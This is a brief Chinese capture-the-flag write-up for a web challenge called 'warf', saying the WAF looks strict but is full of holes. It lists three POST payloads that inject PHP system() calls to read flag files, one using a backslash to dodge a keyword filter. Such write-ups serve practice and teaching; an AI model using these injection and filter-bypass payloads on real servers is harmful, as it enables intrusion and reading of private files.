 ## warf

***

出题人：Jay17

![image-20240413223206050](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413223206050.png)

开局，看似铁waf，其实漏洞百出，有很多绕过方法。

![descript](C:/Users/26272/Pictures/media/cb7652fe6132f96cf18520a56df7a019.png)

```php
POST:
code=system('strings /f*')
code=system('paste /f*')
code=system('ca\t /f*')

```

